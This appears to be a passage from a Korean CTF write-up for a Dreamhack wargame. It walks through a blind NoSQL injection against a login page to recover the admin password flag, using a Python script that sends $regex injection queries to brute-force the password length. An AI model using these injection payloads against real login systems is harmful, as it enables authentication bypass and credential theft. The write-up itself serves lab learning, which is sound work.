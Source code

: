 ## 2. Blind NoSQL Injection

앞에서 NoSQL Injection 공격으로 로그인 인증을 우회하는 것까지는 성공했다.

하지만 이번 문제의 목표는 admin 계정으로 로그인에 성공하는 것이 아니라, admin 계정의 비밀번호(`upw`) 값에 저장되어있는 플래그를 알아내는 것이다.

**`/login` 페이지에서는 `result['uid']`만 출력해주기 때문에 Blind NoSQL Injection을 통해 비밀번호의 길이를 구한 후, 비밀번호를 한자리씩 구해야한다.**

이를 위해서는 자동화 공격 스크립트를 작성하는 것이 필요한데, 익스플로잇 스크립트의 작성 과정을 아래에서 살펴보자.

### 1. 모듈 및 상수 선언

```
import requests
import string

# flag is in db, {'uid': 'admin', 'upw': 'DH{32alphanumeric}'}

HOST = 'http://host3.dreamhack.games:12512'
ALPHANUMERIC = string.digits + string.ascii_letters  # 0123456789 + abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ
SUCCESS = 'admin'
```

HTTP 요청을 보내고 받을 수 있는, `requests` 모듈을 먼저 임포트해준 후, 아래에서 사용할 `string` 모듈 또한 임포트해준다.

그리고 비밀번호 길이와 비밀번호를 구하기 전에, 먼저 해당 과정에 필요한 **호스트 주소, 비밀번호 입력값의 범위** 등 상수들을 정의해야한다.

먼저 워게임 서버 주소를 `HOST`에 저장하여 호스트 주소로 설정해주고, `upw` 내부의 플래그는 `32alphanumeric`(알파벳 + 정수)`이므로 해당 범위의 비밀번호 비교값을 `ALPHANUMERIC` 상수에 저장해준다.

`ALPHANUMERIC`은 `string` 모듈의 `digits`, `ascii_letters`을 더해서 `"0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ"` 문자열이 된다.

그리고 공격을 통해 로그인에 성공하면`result['uid']` 값을 출력(리턴)한다.

여기서 우리는 admin 계정에 로그인할 것이기 때문에 `SUCCESS = "admin"`으로 지정해준 후, 공격 과정에서 `response.text`와 `SUCCESS`가 같은지 비교하여 로그인 성공 여부를 확인할 수 있다.

### 2. 비밀번호 길이 구하기 (이미 주어져서 찾을 필요는 없지만 연습)

```
# 1. 비밀번호 길이 구하기
# 첫 번째 방법
pw_len = 1
while True:
    response = requests.get(f'{HOST}/login?uid[$regex]=ad.in&upw[$regex]=D.{{.{{{pw_len}}}}}')  # D.{.{pw_len}}로 시작

    # response = requests.get(f'{HOST}/login?uid[$regex]=ad.in&upw[$regex]=D.{{.{{{pw_len}}}') # D.{.{pw_len}로 시작하므로 1부터 됨
    # response = requests.get(f'{HOST}/login?uid[$regex]=ad.in&upw[$regex]=.{{{pw_len}}}') # 이것도 마찬가지로 .{pw_len}로 시작하므로 1부터 됨

    if response.text == SUCCESS:
        break
    pw_len = pw_len + 1

print(f'Password length is {pw_len}')
```
